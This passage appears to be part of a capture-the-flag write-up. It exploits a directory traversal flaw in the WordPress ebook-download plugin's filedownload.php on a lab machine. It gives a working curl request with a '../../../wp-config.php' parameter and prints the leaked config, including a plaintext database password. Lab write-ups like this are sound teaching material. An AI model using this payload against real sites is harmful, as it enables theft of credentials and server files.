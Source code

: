 ```text
======================================
```
{: file="exploits/access/eBookWordpressExploit.txt"}

We can see that this exploit is a `.txt` file explaining how the `Directory Traversal` vulnerability can be used. Basically, there is a file called `filedownload.php` in the `ebook-download` plugin, that has an `ebookdownloadurl` parameter that can be pointed to internal resources using `Directory Traversal`.

First, we can try to download the `wp-config.php` file of the web server, as it usually contains credentials in plain text or at least useful information. If we notice, we have to go back three directories to be at the root of the web server. This is where the `wp-config.php` file is located. We will curl the mentioned endpoint in order to try to download the file:

```bash
curl http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```

```php
../../../wp-config.php../../../wp-config.php../../../wp-config.php<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the web site, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication unique keys and salts.
 *
 * Change these to different unique phrases! You can generate these using
 * the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}.
 *
```